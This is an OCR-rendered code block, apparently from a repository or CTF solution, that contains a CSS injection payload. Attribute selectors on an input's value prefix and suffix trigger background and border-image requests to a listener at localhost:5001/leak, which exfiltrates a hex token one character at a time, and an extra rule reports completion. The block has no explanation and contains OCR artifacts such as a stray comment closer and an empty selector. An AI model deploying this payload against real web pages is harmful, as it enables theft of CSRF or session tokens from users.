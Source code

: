 ```
input[value$="a"]{--e0:url(http://localhost:5001/leak?post=a)}
input[value$="b"]{--e0:url(http://localhost:5001/leak?post=b)}
input[value$="c"]{--e0:url(http://localhost:5001/leak?post=c)}
input[value$="d"]{--e0:url(http://localhost:5001/leak?post=d)}
input[value$="e"]{--e0:url(http://localhost:5001/leak?post=e)}
input[value$="f"]{--e0:url(http://localhost:5001/leak?post=f)}
input{background:var(--e0)}
input[value^="0"]{--s0:url(http://localhost:5001/leak?pre=0)}
input[value^="1"]{--s0:url(http://localhost:5001/leak?pre=1)}
input[value^="2"]{--s0:url(http://localhost:5001/leak?pre=2)}
input[value^="3"]{--s0:url(http://localhost:5001/leak?pre=3)}
input[value^="4"]{--s0:url(http://localhost:5001/leak?pre=4)}
input[value^="5"]{--s0:url(http://localhost:5001/leak?pre=5)}
input[value^="6"]{--s0:url(http://localhost:5001/leak?pre=6)}
input[value^="7"]{--s0:url(http://localhost:5001/leak?pre=7)}
input[value^="8"]{--s0:url(http://localhost:5001/leak?pre=8)}
input[value^="9"]{--s0:url(http://localhost:5001/leak?pre=9)}
input[value^="a"]{--s0:url(http://localhost:5001/leak?pre=a)}
input[value^="b"]{--s0:url(http://localhost:5001/leak?pre=b)}
input[value^="c"]{--s0:url(http://localhost:5001/leak?pre=c)}
input[value^="d"]{--s0:url(http://localhost:5001/leak?pre=d)}
input[value^="e"]{--s0:url(http://localhost:5001/leak?pre=e)}
input[value^="f"]{--s0:url(http://localhost:5001/leak?pre=f)}
input{border-image:var(--s0)}
input[value=]{list-style:url(http://localhost:5001/end?token=&)};
*/
```
```



